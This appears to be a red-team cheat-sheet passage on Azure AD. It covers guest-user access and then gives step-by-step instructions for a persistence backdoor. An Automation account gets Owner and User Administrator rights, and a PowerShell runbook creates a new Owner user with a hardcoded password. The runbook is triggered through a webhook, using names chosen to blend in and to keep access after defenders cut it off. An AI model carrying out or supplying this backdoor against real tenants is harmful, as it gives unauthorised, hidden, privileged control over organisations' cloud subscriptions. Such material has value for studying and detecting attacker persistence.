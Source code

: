 ## Guest user accounts
- By default users can add “guest users” from outside the directory
- This provides (at minimum) read access to the directory
- Hybrid deployments may sync from Azure > On-Prem

## Runbook backdoor with webhook
- Create a new Automation account with “Create Azure Run As Account” enabled
- Navigate to Azure Active Directory > Roles and Administrators> User administrator
- Click Add Assignments • Search for your new automation account and add it
- Navigate to Subscriptions > subscription name > Access control (IAM)
- Click Add Role Assignment and add the automation account as an “Owner”
- Navigate back to Automation Accounts and select your new account
- Click “Modules Gallery”
- Search for “Az.”
- Import the Az.Accounts module
- Import the Az.Resources module
- Now we need to import the actual runbook
- In the Automation Accounts menu click “Runbooks”
- Click “Import a runbook”
- Save the script below as a ps1 file and modify the “user”, “password”, “Nickname”, and “DisplayName” to whatever you want it to be.
```
Import-Module Az.Accounts
Import-Module Az.Resources
$user = “username@targetdomain.com"
$pass = "BackdoorFTW!!"
$Nickname = "BackupSVC"
$DisplayName = "backup_service"
$connectionName = "AzureRunAsConnection"
$servicePrincipalConnection = Get-AutomationConnection -Name $connectionName
Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -
ApplicationId $servicePrincipalConnection.ApplicationId -
CertificateThumbprint $servicePrincipalConnection.CertificateThumbprint
$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force
New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -
MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```
- When importing the script set a name to something similar to the standard Automation scripts “AzureAutomationTutorial”
- Set “Runbook Type” to PowerShell and click Create
- After the script is imported navigate to the runbook you just created and click “Webhooks” on the left, then Add Webhook
- Now give the webhook a name that will blend in like “backup”
- Make sure you copy the URL!!! This is the most important step.
- Now if the blue team catches you and cuts off your access you have a backdoor.
- All you have to do now is open a PowerShell terminal and run this to create a brand new Azure account that is owner of the subscription
- ```Invoke-WebRequest -Method Post -Uri <Webhook URL>```
